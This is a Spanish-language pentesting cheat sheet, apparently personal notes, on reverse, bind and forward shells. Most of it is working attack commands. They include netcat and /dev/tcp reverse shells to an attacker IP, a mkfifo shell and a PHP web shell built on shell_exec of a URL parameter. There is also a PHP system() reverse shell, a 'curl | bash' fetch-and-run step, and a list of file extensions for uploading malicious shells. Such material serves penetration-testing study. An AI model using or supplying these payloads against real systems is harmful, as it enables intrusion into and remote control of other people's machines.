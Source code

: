 # Tipos de ReverShell

Tags: #ReverShell #Comandos #Netcat #BindShell

Tenemos diferentes tipos de Revershell este pagina Web:
* [Monkey-Pentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [ReverseShells-Generator](https://www.revshells.com/) 
* [Cheatsheet-ReverseShells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

**Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

**Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

**Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

La mayoría de las paginas al momento de comprometerlas encontraremos el usuario **www-data** que es el encargado de gestionar la parte de servicios web.

## Netcat

```bash 
# Netcat nos ayuda a poder hacer 'Banner grabbing, Port scanning, Transferring files, Bind/Reverse shells', puede ser utilizado como 'Modo cliente, Modo servidor'

❯ nc -nv <IP> <port>        # Hacer que Netcat se conecte a un puerto especifico de una IP por TCP
❯ nc -nvu <IP> <port>       # Hacer que Netcat se conecte a un puerto especifico de una IP por UDP
	# n = No DNS
	# u = UDP 
	# v = Verbose


❯ nc -nc <IP> <Port> < file.txt        # Esta es la forma de enviar un archivo (Maquina atacante 'Envia')
❯ nc -nlvp 443 > file.txt              # El archivo que reciba lo colocara en file.txt (Maquina victima 'Recibe')
```

## Reverse / Bind Shells directamente

**Rever Shell:** 
```bash 
# Desde la URL de la Web (Maquina victima)

❯ nc -nlvp 443   # Ponernos en escucha con Netcat (Maquina atacante) Linux     

# Para la Revershell en la URL de la web (Maquina victima)
❯ nc -e /bin/bash IP 443
❯ bash -i >& /dev/tcp/IP/443 0>&1
	# Ip = Ip del atacante 

❯ bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"
# Donde debemos de urlencodear el '&'
	& = %26
```

```bash 
# Desde la terminal del SO
❯ /usr/share/Seclists/Web-Shells/FuzzDB/nc.exe     # nc.exe nos ayuda a conseguir una ReverShell en Windows (Ruta en Linux)

❯ nc -nlvp 443                                     # Ponernos en escucha con Netcat (Maquina atacante) 
❯ nc.exe -nv <IP> 443 -e cmd.exe                   # Completar la Reverse shell desde una maquina victima Windows

❯ nc -nlvp 443                                     # Ponernos en escucha con Netcat (Maquina atacante) 
❯ nc -nv <IP> 443 -e /bin/bash                     # Completar la Reverse shell desde una maquina victima Linux
```

**Bind Shell:**
```bash
# Desde la terminal del SO

1. ❯ nc.exe -nlvp 443 -e cmd.exe            # Ejecutamos desde la terminal (Maquina victima) para ponernos en escucha y hacer una BindShell en Windows 
1. ❯ nc IP 443                              # Ejecutamos en para completar la Bind Shell (Maquina atacante) Linux


2. ❯ nc -nlvp 443 -c /bin/bash              # Ejecutamos desde la terminal (Maquina victima) para ponernos en escucha y hacer una BindShell en Linux
2. ❯ nc.ex -nv IP 443                       # Ejecutamos en para completar la Bind Shell (Maquina atacante) Windows 
```

## Reverse / Bind Shells cuando subes un archivo a la Web (Maquina victima)

```bash 
# Diferentes extensiones PHP para subir 'Shells' maliciosas

* php
* php3
* php4
* php5
* pht
* phtm
* phtml
* phar
```

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```php
❯ nano cmd.php

	<?php 
		echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
	?>

# Las etiquetas que usamos ahí son 'Pre' de preformateadas y nos sirven para que nos muestre bien el Output. Ya con ese archivo y que la Web interprete 'php' podemos colocar en la url (?cmd=) para colocar comandos y ver que Shell podriamos usar para conectarmos a nuestra maquina de 'Atacante'
```

```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar

❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

**ReverShell en php:**
```php
<?php
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

	# IP = IP de atacante
	# 443 = Puerto a usar
```

Escucha por Netcat en espera de la **ReverShell**:
```bash
❯ nc -nlvp 443            # Linux

❯ rlwrap nc -nlvp 443     # Windows 

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```

```bash 
❯ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc <IP> 443 >/tmp/f   # Podemos usar este comando para hacer una Revershell desde una bash en la maquina victima  

# Nos debemos de poner en escucha antes de esta manera
❯ nc -nlvp 443                   # Escucha en la maquina de atacante
```

```bash 
❯ pwncat-cs -lp 443                         # Podemos usar esta herramienta llamada 'Pwncat'
	❯ run enumerate                        # Enumera todo el sistema 
	❯ run enumerate.user                   # Enumeras los usuarios
	❯ run enumerate.system.network         # Enumeras las interfaces de la maquina 
	❯ back                                 # Nos coloca en la ruta de la terminal de la victima
```

## ForwardShell

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```shell
❯ nano cmd.php
	<?php 
		echo shell_exec($_GET['cmd']);
	?>

```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahí pode colocar comandos y conectarnos a nuestra maquina de **Atacante** por una **ForwardShell**

Descargaremos el siguiente archivo y lo ejecutaremos con Pyhton3 para hacer una **ForwardShell**: 
Debemos estar en la pestana de **Raw**
* [Tty_Over_Http](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)
```bash
❯ wget https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py

	# Descargarnos el archivo 'tty_over_html'
	# Cambiamos la parte de index.php por cmd.php (Dependiendo el servidor)

❯ python3 tty_over_http.py 
```